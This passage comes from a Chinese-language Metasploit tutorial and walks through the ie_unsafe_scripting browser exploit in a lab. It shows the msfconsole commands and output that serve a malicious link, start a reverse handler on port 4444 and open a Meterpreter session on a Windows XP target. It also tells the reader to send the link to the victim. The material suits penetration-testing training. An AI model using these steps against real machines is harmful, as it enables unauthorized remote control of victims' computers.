 ```
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Automatic
msf exploit(ie_unsafe_scripting) > set LHOST 192.168.56.101
LHOST => 192.168.56.101 
```

现在，我们的漏洞和有效负载都被激活了。正如您所看到的，我们在这里没有使用 RHOST 选项，因为它是一种基于客户端的攻击。让我们看看当我们执行 `exploit`命令时会发生什么：

```
msf exploit(ie_unsafe_scripting) > exploit
[*] Exploit running as background job.
[*] Started reverse handler on 192.168.56.101:4444
[*] Using URL: http://0.0.0.0:8080/2IGIaOJQB
[*] Local IP: http://192.168.56.101:8080/2IGIaOJQB
[*] Server started. 
```

正如我们所看到的， `exploit`命令产生了一个链接。这是我们必须发送到目标的恶意链接（`http://192.168.56.101:8080/2IGIaoJQB`，以便它可以利用他们的浏览器进行攻击。最后一行显示“服务器已启动”，它实际上正在侦听来自目标机器的端口 4444 上的连接。让我们首先分析在 Windows XP 目标计算机上执行链接的结果。

浏览器将尝试加载页面，但最后不会显示任何内容。反过来，浏览器将挂起或保持空闲。但您会注意到 msfconsole 上的一些活动。此活动将类似于以下命令行中显示的活动：

```
msf exploit(ie_unsafe_scripting) > [*] Request received from 192.168.56.102:1080...
[*] Encoding payload into vbs/javascript/html...
[*] Sending exploit html/javascript to 192.168.56.102:1080...
[*] Exe will be uunqgEBHE.exe and must be manually removed from the %TEMP% directory on the target.
Sending stage (752128 bytes) to 192.168.56.102
[*] Meterpreter session 1 opened (192.168.56.101:4444 -> 192.168.56.102:1081) at 2011-11-12 21:09:26 +0530 
```

令人惊叹的我们与目标机器有一个活动会话。前面的命令行输出显示，已在目标的 `temp`文件夹中创建了一个可执行文件，该文件夹负责整个利用过程。

现在，让我们分析使用 IE 8 在 Windows 7 计算机上执行此恶意链接的结果。

我们将注意到 Internet Explorer 将提示一条警告消息。单击**允许**时，外部脚本将被执行，浏览器可能会崩溃或挂起（取决于系统）。

![How to do it...](img/7423_04_02.jpg)
